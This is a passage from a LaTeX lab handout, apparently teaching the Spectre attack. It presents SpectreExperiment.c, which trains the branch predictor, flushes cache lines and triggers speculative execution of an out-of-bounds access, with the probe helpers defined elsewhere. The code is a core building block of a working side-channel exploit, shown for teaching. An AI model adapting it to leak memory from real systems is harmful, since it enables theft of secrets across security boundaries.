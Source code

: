 

\subsection{The Experiment}

In this task, we use an experiment to observe the effect caused by
an out-of-order execution. The code used in this experiment is shown below.
Some of the functions used in the code
is the same as that in the previous tasks, so they will not be repeated. 


\begin{lstlisting}[caption=\texttt{SpectreExperiment.c}, label=spectre:list:outoforder]
#include <emmintrin.h>
#include <x86intrin.h>

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void victim(size_t x) 
{
  if (x < size) {                         (*@\ding{192}@*)
     temp = array[x * 4096 + DELTA];      (*@\ding{193}@*)
  }
}

int main() 
{
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {              (*@\ding{194}@*)
     _mm_clflush(&size);                  (*@\ding{80}@*)
     victim(i);                           (*@\ding{195}@*)
  }

  // Exploit the out-of-order execution 
  _mm_clflush(&size);                     (*@\ding{80}@*)
  for (i = 0; i < 256; i++)  
    _mm_clflush(&array[i*4096 + DELTA]);
  victim(97);                             (*@\ding{196}@*)

  // RELOAD the probing array
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


